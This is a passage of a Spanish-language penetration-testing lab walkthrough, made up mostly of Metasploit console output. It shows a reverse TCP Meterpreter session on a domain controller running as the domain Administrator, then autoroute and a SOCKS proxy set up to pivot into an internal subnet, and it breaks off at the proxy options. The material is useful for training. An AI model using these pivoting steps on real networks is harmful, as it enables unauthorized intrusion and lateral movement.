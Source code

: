 ```r
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:8443 
[*] Sending stage (200262 bytes) to 10.10.14.15
[*] Meterpreter session 2 opened (10.10.14.15:8443 -> 10.10.14.15:46313 ) at 2022-06-22 21:36:20 -0400

(Meterpreter 2)(C:\) > getuid
Server username: INLANEFREIGHT\Administrator
(Meterpreter 2)(C:\) > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 3
Meterpreter     : x64/windows
```

Para nuestro próximo truco, configuraremos una ruta a la subred `172.16.9.0/23`.

```r
(Meterpreter 2)(C:\) > run autoroute -s 172.16.9.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.9.0/255.255.254.0...
[+] Added route to 172.16.9.0/255.255.254.0 via 10.10.14.15
[*] Use the -p option to list all active routes
```

Podemos confirmar esto verificando la tabla de enrutamiento de **MSF**.

```r
(Meterpreter 2)(C:\) > background
[*] Backgrounding session 2...
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.9.0         255.255.254.0      Session 2
```

Ahora necesitamos configurar un **socks proxy**, que es el paso final antes de que podamos comunicarnos directamente con la red `172.16.9.0/23` desde nuestro host de ataque.

```r
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> use auxiliary/server/socks_proxy 
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This
                                        must be an address on the local machine or 0.0.0.0 to l
                                        isten on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:
```